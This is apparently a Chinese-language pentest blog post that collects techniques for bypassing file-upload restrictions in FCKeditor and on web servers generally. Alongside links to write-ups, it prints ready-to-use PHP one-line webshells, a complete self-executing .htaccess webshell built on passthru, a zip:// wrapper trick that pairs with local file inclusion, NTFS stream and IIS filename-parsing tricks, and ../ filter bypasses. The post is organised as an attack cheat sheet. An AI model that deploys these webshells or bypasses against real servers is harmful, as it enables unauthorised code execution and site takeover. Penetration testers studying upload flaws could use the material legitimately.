 ```yaml
---
layout:     post
title:      fckeditor各版本绕过
date:       2016-08-12
summary:    fckeditor各版本绕过
categories: web
tags:
 - fckeditor
 - web
 - upload
---
```


### 0x00 fckeditor上传漏洞总结

    http://sec.chinabyte.com/206/13708206.shtml
    http://www.cnbraid.com/2015/07/09/fckeditor/
    http://www.it610.com/article/1842939.htm
    http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf <=2.6.4

### 0x01 asp

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf
    2.6.6
        http://www.hack80.com/thread-320-1-1.html
        http://www.qhwins.com/ShowNews/?11-20109214030542523.html
    2.6.8
        http://www.freebuf.com/vuls/6408.html

### 0x02 php

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf

### 0x03 fckeditor经典尝试后缀

    1>将后缀改成.php.pjpg
    2>将后缀改成.html
    3>将后缀改成.lnk

### 0x04 其它上传技巧

    1>上传时,延迟一下再上传,有时能bypass admin,用到firefox tamper插件
        https://www.youtube.com/watch?v=ndeYnMoFPx8
        管理员登录绕过
            https://www.youtube.com/watch?v=UO-vzWFctTA
            https://www.youtube.com/watch?v=a5fm629s8Ao
                firefox noredirect插件
    2>双文件上传
    3>上传以图片后缀名为后缀的压缩文件,文件实际是一个webshell.php文件的压缩文件(zip),利用lfi漏洞并将lfi要包含
      的文件的参数赋值为:
        zip://archive.zip#webshell.php
        或
        zip://archive.zip#webshell.php&param1=system&param2=ls   ===>这里对应webshell.php为:
            <?php $_GET['param1']($_GET['param2']);?>
      这里适用的情况为:
        a>可上传任意内容文件(通过修改Content-Type等达到目的),但文件会被重命令为以png为后缀文件
        b>找到了lfi漏洞,但是lfi漏洞不能包函.|./|..|..\|...等情况
      更多细节:
        https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/
    4>上传图片被resize等修改时,绕过方法: 
        a)利用上传前和上传后的文件对比找出没有变化的字符串,将其写payload
            http://www.freebuf.com/articles/web/54086.html
        b)老外的方法,比a)中的要好
            https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
        用法:x.php?0=system post data:1=whoami,上面链接中的payload见如下phppayload

<a href="https://www.idontplaydarts.com/images/phppng.png">phppayload</a>

    5>https://www.nds.rub.de/media/attachments/files/2012/11/File-in-the-hole.pdf
        多种上传技巧:
        a)将.htaccess本身作为webshell,解析本身.htaccess作为php
            http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html
            -----------------------自解析.htaccess--------------------------------
            # Self contained .htaccess web shell - Part of the htshell project
            # Written by Wireghoul - http://www.justanotherhacker.com

            # Override default deny rule to make .htaccess file accessible over web
            <Files ~ "^\.ht">
            Order allow,deny
            Allow from all
            </Files>

            # Make .htaccess file be interpreted as php file. This occur after apache has interpreted
            # the apache directoves from the .htaccess file
            AddType application/x-httpd-php .htaccess

            ###### SHELL ###### <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>###### LLEHS ######
            -----------------------自解析.htaccess--------------------------------

###### SHELL ###### <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>###### LLEHS ######
        b)NTFS ADS
            1."file.asp::$data"=="file.asp"
            2."/folder:$i30:$Index_allocation"=="/folder"
            3.".htaccess:.jpg" -> make empty ".htaccess"=="HTACCESS~1"
                适用于.htaccess不让上传情况下,估计一般情况下都不让上传隐藏文件,这时通过burp将文件名名改成
                .htaccess:.jpg则可上传.htaccess文件
            4.通过文件上传来创建文件夹(windows下)
                https://www.youtube.com/v/Ws2JrZG679Q?version=3&hl=en_US&rel=0&vq=hd720
                detail:将文件名通过burp改成file::$Index_Allocation或者是file:$I30:$Index_Allocation,这样就会在服务器上新建file文件夹
        c)绕过../和..\保护:
            https://www.youtube.com/v/HjS6Pob5t34?version=3&hl=en_US&rel=0&vq=hd720
            ../改成.. /(..%20/)
            ..\改成.. \(..%20\)
        d)iis:
            file.asp;.jpg以asp解析
            /folder.asp/file.txt以asp解析
        e)文件名后有被忽略字符
            "test.asp . .. ." == "test.asp" 
            "test.php<>" == "test.php"
        f)在图片文件的文件属性中添加copyright属性为:
            <?=$_GET[0]($_POST[1]);?>
            这个暂时没有找到工具,好像要用photoshop
        g)"file.p.phphp"==>"file.php" 
        h)配置有误情况下:
            "/file.jpg/index.php"会将file.jpg按照php解析
        i)常见content-type"白名单":
            image/gif
            image/jpeg
            image/pjpeg
